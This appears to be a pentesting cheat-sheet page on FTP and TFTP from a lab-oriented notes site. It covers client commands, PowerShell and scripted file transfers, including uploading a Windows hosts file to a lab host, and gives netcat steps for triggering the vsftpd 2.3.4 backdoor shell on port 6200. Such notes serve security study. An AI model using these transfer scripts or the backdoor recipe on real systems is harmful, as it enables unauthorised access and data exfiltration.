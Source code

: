 ```yaml
---
description: File Transfer Protocol
icon: file-chart-column
---
```


# FTP

{% hint style="info" %}
* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`Port 20`**</mark> <mark style="color:purple;">for</mark> <mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:orange;">**`Port 21`**</mark>**&#x20;**<mark style="color:purple;">**for Commands.**</mark>&#x20;
* <mark style="color:purple;">It can use</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">over</mark> <mark style="color:orange;">**`Port 69`**</mark> <mark style="color:purple;">for</mark> <mark style="color:orange;">**`TFTP`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Always check for</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login being enabled.</mark>
{% endhint %}

<details>

<summary><mark style="color:purple;"><strong><code>Basic Commands</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">Start the service:</mark>

```bash
ftp <IP>
```

* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```

* <mark style="color:purple;">Download a file:</mark>

```sh
get <file>
```

* <mark style="color:purple;">Upload a file:</mark>

```sh
put <file_path> <destination_path>
```

* <mark style="color:purple;">Passive mode:</mark>

```sh
passive
```

* <mark style="color:purple;">Change the local directory for downloads:</mark>

```sh
lcd /home/<your-username>
```

* <mark style="color:purple;">Exit the session:</mark>

```shell
quit
```

* <mark style="color:purple;">Transferring files using</mark> <mark style="color:orange;">**`powershell`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
{% endcode %}

* <mark style="color:purple;">Upload a file using</mark> <mark style="color:orange;">**`powershell`**</mark>

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login is enabled, use</mark> <mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">:</mark>

```sh
curl -O ftp://<server-address>/path/to/file
```
{% endhint %}

{% hint style="info" %}


#### <mark style="color:orange;">`TFTP`</mark>

{% code title="Start the service" %}
```sh
tftp <IP>
```
{% endcode %}

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`binary`**</mark> <mark style="color:purple;">mode for non-text files:</mark>

```
mode binary
```

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`ASCII`**</mark> <mark style="color:purple;">mode for text files:</mark>

```
mode ascii
```

* <mark style="color:purple;">To look for files in the</mark>  <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">root:</mark>

```sh
find / -name file.txt
```
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Enumeration</code></strong></mark></summary>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```sh
searchsploit <version>
```

* <mark style="color:purple;">Always check where you land:</mark>

```sh
pwd
```

* <mark style="color:purple;">List directories:</mark>

```sh
dir
```

{% hint style="info" %}
<mark style="color:purple;">This is the default config file for</mark> <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">--></mark> <mark style="color:orange;">**`tftpd-hpa`**</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Set a Python Server</code></strong></mark></summary>

* <mark style="color:purple;">First, Install the</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">module:</mark>

```sh
sudo pip3 install pyftpdlib
```

* <mark style="color:purple;">Then, set the server:</mark>

```sh
sudo python3 -m pyftpdlib --port 21
```

* <mark style="color:purple;">By default,</mark> <mark style="color:orange;">**`pyftpdlib`**</mark> <mark style="color:purple;">uses</mark> <mark style="color:orange;">**`Port 2121`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">authentication is enabled by default if we don't set a user and password.</mark>

{% code title="Allow write permissions" overflow="wrap" %}
```sh
sudo python3 -m pyftpdlib --port 21 --write
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Create a command file</code></strong></mark></summary>

* <mark style="color:purple;">Is possible to create command files and execute then using the</mark> <mark style="color:orange;">**`-s`**</mark> <mark style="color:purple;">flag:</mark>

```sh
ftp -v -n -s:ftpcommand.txt
```

* <mark style="color:purple;">Copy this in to a file to create a script that will</mark> <mark style="color:orange;">**`download`**</mark> <mark style="color:purple;">a file:</mark>

```bash
open 192.168.49.128
USER anonymous
binary
GET file.txt
bye
```

* <mark style="color:purple;">Copy this in to a file to create a script that will</mark> <mark style="color:orange;">**`upload`**</mark> <mark style="color:purple;">a file to the server:</mark>

```sh
open 192.168.49.128
USER anonymous
binary
PUT c:\windows\system32\drivers\etc\hosts
bye
```

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Vulnerabilities</code></strong></mark></summary>

{% hint style="danger" %}
### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```
{% endhint %}

</details>
